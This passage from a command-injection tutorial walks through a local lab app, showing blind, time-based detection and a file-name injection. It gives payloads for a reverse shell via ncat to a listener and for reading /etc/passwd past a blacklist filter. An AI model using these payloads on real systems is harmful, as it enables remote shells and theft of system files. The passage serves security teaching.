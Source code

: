 Personally, I find discovering and exploiting blind injection attacks more engaging. It often requires a bit of detective work. Unlike result-based command injection, in a blind injection attack, we don't receive any feedback from the application. In some cases, we may not even know if our input is triggering an OS command. It's like solving a puzzle, and the satisfaction of discovering a vulnerability that’s not openly visible is incredibly rewarding.

To uncover a blind injection vulnerability, you must experiment with different inputs and have a thorough understanding of how the application functions. One reliable form of feedback is time-based feedback. With this method, we can measure the time difference between benign inputs and malicious inputs to confirm whether the vulnerability exists and whether we have successfully exploited it. Depending on the target operating system, we can try various inputs and observe the difference in execution time to determine if the application is running an OS command.

```bash
http://localhost:5000/gift
#go to this address on your browser
```

Let us now look at a web application that can be used to recover old corrupted gift cards. The site instructs you to upload the gift card(this a binary file), once the gift card is uploaded the application sends out a message,

> *file uploaded successfully and if valid credits will be added to the account*
> 

Now, let's try exploiting this application using the knowledge we've gained about blind command injection. We can manipulate the file to inject malicious commands into the application. This can lead to various types of attacks, including data exfiltration, privilege escalation, or system compromise.

So, our clue to exploiting this application is that the file name is vulnerable. By carefully crafting the file name to include malicious commands, an attacker can exploit this vulnerability and gain unauthorized access to the system.

```python
filename = "test;ping -c 4 8.8.8.8"
#this filename exploits the vulnerability, instead of just pinging we can also create a reverse shell
reverseShellFilename = "test;ncat -c sh {listenerIp} {listernerPort}"
```

Now that we have an understanding of how this vulnerability works let us go back to our ping application but we’ll be using a different endpoint this time – “/pingSafe”. Try to exploit this vulnerability. Some protections have been added but they are not comprehensive.

```bash
http://localhost:5000/pingSafe
#go to this address on your browser
```

**************************************Payload to exploit(pingSafe):**************************************

> **{address}|\c\a\t${IFS}\/etc\/passwd**
> 

Let's examine the blacklist we used in our attempt to protect against command injection attacks:
